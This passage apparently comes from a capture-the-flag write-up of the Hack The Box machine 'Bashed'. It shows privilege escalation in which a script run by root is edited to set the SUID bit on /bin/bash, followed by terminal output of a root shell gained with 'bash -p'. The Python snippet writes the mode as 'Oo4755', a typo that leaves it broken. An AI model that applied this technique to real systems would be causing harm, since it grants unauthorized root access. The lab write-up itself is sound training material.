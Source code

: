 - test.txt

```text
testing 123!
```

and also, test.txt files seems to be updated frequently.

![file updated](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/file_updated.png)

whoaa, my hacker sense it tingling. 

test.py is updating test.txt every moment. since test.txt is owned by root, to modify this file, test.py also must be running as root, 😵. So here we are with a python script test.py which is running as root every moment. fkn diabolical! 👿.

From here on, we can follow multiple paths to gain root access on the system. for now, let's add suid bit to bin/bash so that we can directly access bash terminal of root. the updated python script for this would be:
```python
import os
os.chmod('/bin/bash', Oo4755)
``` 

after a moment, the suid bit of /bin/bash will get changed and we can access the root. so let's update the test.py file.

```bashscriptmanager@bashed:/scripts$ ls -al /bin/bash
-rwxr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/scripts$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3#   
```

![I am root](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/root.png)

Now you can simply get the root flag by traversing to root directory.

![root flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/root_flag.png)

And We are done. Until we meet again ;)

![bashed pwned](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/bashed/bashed_pwned.png)
